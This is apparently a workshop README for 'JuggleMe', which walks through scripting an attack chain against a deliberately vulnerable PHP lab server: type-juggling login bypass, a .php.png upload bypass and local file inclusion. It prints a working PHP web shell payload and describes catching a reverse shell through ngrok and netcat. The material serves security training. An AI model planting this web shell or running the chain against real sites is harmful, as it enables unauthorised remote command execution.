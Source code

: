 # JuggleMe

## Link to download Vulnerable server
https://drive.google.com/file/d/1D79WJ7gtECDag9_kxquUoUGX4fDHaJ-t/view?usp=sharing

If you do not have VMware Fusion or VMware Workstation the application is available at http://da45-107-181-178-100.ngrok.io/Login.php.  You will need to install ngrok to receive your reverse shell and will have to either modify the script or set up ngrok with a netcat listener on the side.  You can sign up and download ngrok here: https://ngrok.com/

# Vulnerabilities
* PHP Type Juggling - Authentication Bypass
* File Upload - Remote Code Execution and File Extension Bypass
* Local File Inclusion - Executing Extension Bypass technique

## PHP Type Juggling
* PHP Loose Comparison - https://www.php.net/manual/en/types.comparisons.php
* Owasp Type Juggling - https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
* PHP Magic Hashes - https://github.com/spaze/hashes

Vulnerable Code : https://gist.github.com/dreamcast65/1d7fd96893d70d4c85e649b358e47dbc#file-loose-comparison

## File Upload
* File Extension Bypass Cheat Sheet - https://book.hacktricks.xyz/pentesting-web/file-upload

While it may be beneficial to test for other types of file extension bypasses the bypass we will use for this workshop will be .php.png

Vulnerable Code : https://gist.github.com/dreamcast65/c91bd12384d33b2fb4067cd9bc989be0#file-file-upload-bypass
        
Code To make a webshell:

    uploaded_file = "shell.php.png"
    files = {'image':(uploaded_file, "<?php if(isset($_REQUEST['cmd'])){ echo \"<pre>\"; $cmd =($_REQUEST['cmd']);system($cmd);echo \"</pre>\";die;}?>")
	    }
        
## Local file Inclusion
* Owasp LFI - https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
* LFI cheatsheet - https://highon.coffee/blog/lfi-cheat-sheet/

Vulnerable Code : https://gist.github.com/dreamcast65/4dbddb89d75eec29383b8497d615eaa3#file-local-file-inclusion

## Important Python Libraries
* Requests - https://requests.readthedocs.io/en/latest/

We will be using the Requests library to create a session object to make GET and POST requests which we will use to log in, upload a file, and access that file.

* Subprocess - https://docs.python.org/3/library/subprocess.html

We will use Subprocess to execute and receive our reverse shell without having to start a netcat listener in another terminal.

* Time - https://docs.python.org/3/library/time.html

The time library will only be used to wait a few seconds for requests and responses to come back.

* Argparse - https://docs.python.org/3/library/argparse.html

This will be used for parsing arguments.

## Useful Burp Extension
* Copy As Python-Requests - https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160

# Time To Code

## def __init__ 
A Sample class with __init__ method.  This is similar to a constructor in C++ and Java and will help with our arguments.
    
    class Person:  

    # init method or constructor   
    def __init__(self, name):  
        self.name = name  
      
    # Sample Method   
    def say_hi(self):  
        print('Hello, my name is', self.name)  
      
    p = Person('Nikhil')  
    p.say_hi() 
## def exploitation(self):
Variables
	
	variables ={
		"username":login,
		"password":password,
		"etc":etc
		....
		....
		}
Session

	r = requests.Session();
GET

	r1 = r.get(url);

POST

	r2 = r.post(url, data=variables)
UPLOAD

	r.post(url, files=files) // files above under file upload vulnerability
Proxies

	proxies={
	'http':'http://127.0.0.1:8081'
	}
It may be beneficial to add proxies to the POST requests if you'd like to intercept a request with burp and inspect that it looks like the POST request you are expecting.
## def get_args():

	parser = argparse.ArgumentParser(description='JuggleMe v 0.1.0 - Remote Code Execution (RCE) (Authenticated)')
	parser.add_argument('-t', '--target', dest="url", required=True, action='store', help='Target IP') //add all arguments you will need
	args= parser.parse_args()
	return args
## Solution Script
JuggleMe.py - https://github.com/dreamcast65/JuggleMe/blob/main/JuggleMe.py
